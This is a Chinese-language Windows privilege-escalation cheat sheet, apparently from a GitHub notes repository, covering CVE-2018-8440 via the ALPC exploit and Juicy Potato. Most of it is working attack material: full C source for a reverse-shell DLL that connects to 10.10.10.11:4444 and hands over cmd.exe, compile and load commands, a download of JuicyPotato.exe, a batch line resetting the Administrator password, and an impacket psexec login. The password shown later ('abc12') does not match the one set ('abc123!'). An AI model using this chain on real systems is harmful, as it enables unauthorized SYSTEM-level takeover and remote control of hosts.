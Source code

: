 # 1、CVE-2018-8440提权（win2016、win10）

查看系统版本及补丁情况
```bash
systeminfo
```
查看目录权限
```bash
icacls C:\Windows\Tasks
```
user需要有读和执行的权限


参考ALPC DiagHub exploit - https://github.com/realoriginal/alpc-diaghub


下载对应版本的bin，编写dll


使用mingw-w64编译dll
```bash
apt install mingw-w64
x86_64-w64-mingw32-g++ payload.cpp -o payload.dll -lws2_32 -shared
```
执行命令加载dll获得反弹shell
```bash
cmd /c alpc.exe payload.dll .\xh.rtf
```
dll源代码：
```c
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>
#include <ws2tcpip.h>
#pragma comment(lib, "Ws2_32.lib")
#define DEFAULT_BUFLEN 1024
void revShell();
BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved)
{
switch(dwReason)
{
case DLL_PROCESS_ATTACH:
revShell();
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return 0;
}
void revShell() {
Sleep(1000); // 1000 = One Second
SOCKET mySocket;
sockaddr_in addr;
WSADATA version;
WSAStartup(MAKEWORD(2,2), &version);
mySocket = WSASocket(AF_INET,SOCK_STREAM,IPPROTO_TCP, NULL, (unsigned
int)NULL, (unsigned int)NULL);
addr.sin_family = AF_INET;
addr.sin_addr.s_addr = inet_addr("10.10.10.11"); // Change IP
addr.sin_port = htons(4444); //Change port
//Connecting to Proxy/ProxyIP/C2Host
if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL,
NULL, NULL)==SOCKET_ERROR) {
closesocket(mySocket);
WSACleanup();
}
else {
char RecvData[DEFAULT_BUFLEN];
memset(RecvData, 0, sizeof(RecvData));
int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN, 0);
if (RecvCode <= 0) {
closesocket(mySocket);
WSACleanup();
}
else {
char Process[] = "cmd.exe";
STARTUPINFO sinfo;
PROCESS_INFORMATION pinfo;
memset(&sinfo, 0, sizeof(sinfo));
sinfo.cb = sizeof(sinfo);
sinfo.dwFlags = (STARTF_USESTDHANDLES |
STARTF_USESHOWWINDOW);
sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError =
(HANDLE) mySocket;
CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL,
NULL, &sinfo, &pinfo);
WaitForSingleObject(pinfo.hProcess, INFINITE);
CloseHandle(pinfo.hProcess);
CloseHandle(pinfo.hThread);
memset(RecvData, 0, sizeof(RecvData));
int RecvCode = recv(mySocket, RecvData, DEFAULT_BUFLEN,
0);
if (RecvCode <= 0) {
closesocket(mySocket);
WSACleanup();
}
if (strcmp(RecvData, "exit\n") == 0) {
exit(0);
}
}
}
}
```
# JUICY POTATO提权

查看权限，SeImpersonate为enabled

```bash
whoami /priv
```
使用https://github.com/ohpe/juicy-potato

下载JuicyPotato
```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
编写bat文件
```bash
net user Administrator abc123!
```
利用JuicyPotato以system权限执行bat文件
```bash
.\juicypotato.exe -t * -p C:\Users\Public\root.bat -l 9001 -c {A9B5F443-FE02-4C19-859D-E9B5C5A1B6C6}
```
使用Python impacket获取system权限shell


https://github.com/SecureAuthCorp/impacket

```bash
psexec.py administrator@10.10.10.116 # password: abc12
```




